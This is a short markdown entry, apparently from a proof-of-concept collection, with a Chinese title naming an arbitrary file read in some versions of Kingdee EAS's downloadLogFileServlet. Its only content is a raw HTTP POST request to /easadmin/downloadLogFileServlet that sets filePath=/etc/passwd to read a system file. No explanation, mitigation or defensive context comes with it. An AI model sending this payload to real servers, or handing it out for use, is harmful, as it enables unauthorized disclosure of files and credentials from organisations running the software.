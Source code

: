 # 金蝶eas部分版本 downloadLogFileServlet 任意文件读取

    ```
POST /easadmin/downloadLogFileServlet HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

filePath=/etc/passwd
```
